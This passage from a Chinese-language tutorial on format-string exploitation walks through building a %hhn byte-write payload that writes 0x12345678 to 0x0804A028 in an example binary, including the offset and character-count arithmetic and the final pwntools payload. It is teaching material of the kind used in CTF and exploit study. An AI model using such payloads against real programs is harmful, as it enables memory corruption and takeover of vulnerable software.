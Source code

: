 还是使用上面例题，写入的目标地址为 0x0804A028 。使用单字节写入（hhn），写入值为 ``0x12345678`` 。变量是小端序存储，也在内存中是这样的：``\x78\x56\x34\x12`` ，简单点就是从右向左覆盖。

```
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

为了与覆盖小数字统一，避免计算地址占用字长，将地址放置在字符串末尾，得出以下框架：

```python
# 格式化字符串
payload="%xc%y$hhn%xc%y$hhn%xc%y$hhn%xc%y$hhn"
# 目标地址
payload += p32(0x0804A028)+p32(0x0804A028+1)+p32(0x0804A028+2)+p32(0x0804A028+3)
```

``x`` 控制输出多少个 null 字符。``y`` 写入地址的偏移量。

##### 手工计算 c 生成字符数

写入顺序为：0x78、0x56、0x34、0x12

```
需要写入0x78，已经存储0x0字符
0x78=120
x1=120
---
需要写入0x56，已经存储0x78字符
0x156溢出单字节上限，忽略进位，存储0x56
0x156-0x78=222
x2=222
---
需要写入0x34，已经存储0x156字符
0x234溢出单字节上限，忽略进位，存储0x34
0x234-0x156=222
x3=222
---
需要写入0x12，已经存储0x234字符
0x312溢出单字节上限，忽略进位，存储0x12
0x312-0x234=222
x4=222
---
```

得到结果：``payload="%120c%y$hhn%222c%y$hhn%222c%y$hhn%222c%y$hhn"`` ，长度是 44 ，预估地址偏移是两位数字，再进行一下修改，计算对齐长度为 0 ，最后 payload 为：

```
payload="%120c%18$hhn%222c%19$hhn%222c%20$hhn%222c%21$hhn"
payload += p32(0x0804A028)+p32(0x0804A028+1)+p32(0x0804A028+2)+p32(0x0804A028+3)
```

### 覆盖栈内存
